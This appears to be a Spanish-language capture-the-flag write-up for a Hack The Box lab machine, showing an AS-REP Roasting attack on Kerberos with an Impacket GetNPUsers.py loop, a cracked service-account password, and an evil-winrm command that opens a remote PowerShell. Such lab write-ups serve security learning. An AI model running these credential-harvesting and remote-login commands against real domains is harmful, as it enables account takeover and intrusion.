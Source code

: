 # **ATAQUE AS-REP ROASTING**

Vamos a intentar realizar un ataque AS-REP Roasting:

AS-REP Roasting es un ataque contra Kerberos para cuentas de usuario que no requieren autenticación previa (UF_DONT_REQUIRE_PREAUTH esta activado)

Con la herramienta GetNPUsers.py vamos a intentar encontrar un usuario con dicha cualidad:

Creamos un bucle para ir iterando en cada usuario:

`for user in $(cat users); do python3 GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done`

![images/Untitled%209.png](images/Untitled%209.png)

Obtenemos el hash del usuario svc-alfresco, vamos a crackearlo con john:

![images/Untitled%2010.png](images/Untitled%2010.png)

# **EVIL-WINRM PARA GANAR ACCESO**

La contraseña es s3rvice, vamos a usarla para conectarnos con WinRM, para usar esta herramienta tiene que tener abierto el puerto 5985 de la maquina HTTP o 5986 HTTPS:

Para instalar esta herramienta: `gem install evil-winrm`

`evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`

Y hemos obtenido una PowerShell:
